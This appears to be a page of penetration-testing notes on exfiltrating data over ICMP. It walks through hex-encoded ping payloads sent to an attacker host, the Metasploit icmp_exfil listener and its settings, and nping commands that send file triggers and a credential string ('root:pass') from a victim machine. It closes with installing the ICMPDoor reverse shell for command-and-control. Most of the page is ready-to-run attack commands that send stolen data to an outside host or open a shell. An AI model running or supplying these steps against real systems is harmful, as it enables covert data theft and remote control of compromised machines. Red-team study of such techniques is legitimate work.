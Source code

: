 **Exfiltration with ICMP only**

On the victim machine we encode the data to be exfiltrated in hex format and send it via ping to the attacker machine

```
ping attacker_IP -c 1 -p [hex-data]
```

**With Metasploit**

The Metasploit framework uses the same technique explained in the previous section. However, it will capture incoming ICMP packets and wait for a `Beginning of File (BOF)` trigger value. Once it is received, it writes to the disk until it gets an `End of File (EOF)` trigger value.

One of the requirements for this module is to set the `BPF_FILTER` option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine

```
msf5 > use auxiliary/server/icmp_exfil 

msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKER_IP 

msf5 auxiliary(server/icmp_exfil) > set INTERFACE eth0 

msf5 auxiliary(server/icmp_exfil) > run
```

On the victim machine, we will send the BOF trigger so that the Metasploit framework starts writing to the disk

```
sudo nping --icmp -c 1 attacker-ip --data-string "BOFfile.txt"
```

We specify the trigger value with the file name `BOFfile.txt`, set by default in the Metasploit framework. This could be changed from Metasploit if needed!

If everything is set correctly, the Metasploit framework should identify the trigger value and wait for the data to be written to disk.&#x20;

Then we can start sending the required data and the end of the file trigger value from the victim machine.

```
sudo nping --icmp -c 1 attacker-ip --data-string "root:pass"
```

**With ICMP C2 Communication**

ICMPDoor is an open-source reverse-shell written in Python3 and scapy. It enables an attacker to send a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.

On the victim machine.

```
sudo git clone https://github.com/krabelize/icmpdoor

sudo icmpdoor -i eth0 -d victim-ip
```
